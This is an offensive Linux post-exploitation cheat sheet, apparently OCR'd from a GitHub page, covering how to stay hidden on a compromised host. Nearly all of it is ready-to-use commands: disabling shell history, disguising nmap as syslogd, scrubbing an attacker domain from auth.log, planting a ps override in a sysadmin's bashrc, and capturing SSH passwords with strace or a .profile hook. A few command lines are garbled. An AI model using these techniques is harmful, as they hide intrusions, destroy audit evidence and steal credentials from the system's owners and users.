 - Disable BASH history (do first in every shell)
	- `export HISTFILE=/dev/null` OR `unset HISTFILE` OR `export HISTSIZE=0`
- Force-terminate a shell upon exiting it to ensure there are no dangling processes
	- `alias exit='kill -9 $$'`
	- Note that history is only written to the disk on clean termination of the shell, so this bypasses that by simply killing it.
- Execute a command without logging to history (lead with a space)
	- `$  id`
- Hide a command by masking it as syslogd (note the parentheses)
	- `(exec -a syslogd nmap -T0 10.0.0.1/24)`
- Start a background hidden process masked as syslogd
	- `exec -a syslogd nmap -T0 10.0.2.1/24 &>nmap.log &`
	- If there is no BASH:
		- `cp which nmap syslogd
		- `PATH=.:$PATH syslogd -T0 10.0.2.1/24`
- Execute a process as syslogd and hide arguments (must download zap-args.c)
	- `gcc -Wall -O2 -fpic -shared -o zap-args.so zap-args.c -ldl`
	- `LD_PRELOAD=./zap-args.so exec -a syslogd nmap -T0 10.0.0.1/24`
- Hiding an SSH connection
	- `ssh -o UserKnownHostsFile=/dev/null -T user@target.com 'bash -i'`
	- Your user:
		- Is not added to /var/log/utmp
		- Won't appear in w or who commands
		- Has no .profile or .bash_profile
- Modifying log files to remove evidence of us authenticating
	- Grep out source domain/IPs and overwrite the files
		- `cd /dev/shm; grep -v 'atkr\.com' /var/log/auth.log >a.log; cat a.log >/var/log/auth.log; rm -f a.log`
	- "Touch" files back to their last modified time for best results
- Hide a file from ls command:
	- `alias ls='ls -I malicious'`
- Weird directory usage:
	- `"mkdir '...'; cd '...'"`
- Annoying tabs in directory names:
	- `mkdir $'\t'; cd $'\t'`
- Sniff SSH session being made from a box you control
	- `strace -e trace=read -p <PID> 2>&1 | while read x; do echo "$x" | grep '^read.*= [1-9]$' | cut -f2 -d\"; done`
	- The above will fail if `/proc/sys/kernel/yama/ptrace_scope = 1`
		- Alternative: `echo 'exec script -qc /bin/bash ~/.ssh-log.txt' >>~/.profile`

- Override PS in sysadmin's bashrc to grep out evil procs
	- `echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap -e GREP; }' >>~/.bashrc && touch -r /etc/passwd ~/.bashrc`

- Monitor connections to determine when a user has logged in with SSH (will beep when one is detected)
	- `tcpdump -nlq "tcp[13] == 2 and dst port 22" | while read x; do echo "${x}"; echo -e '\a'; done`
		- When SSH'd in, you'll need to change the last portion to redirect the beep to your TTY: `echo -e '\a' > /dev/tty5`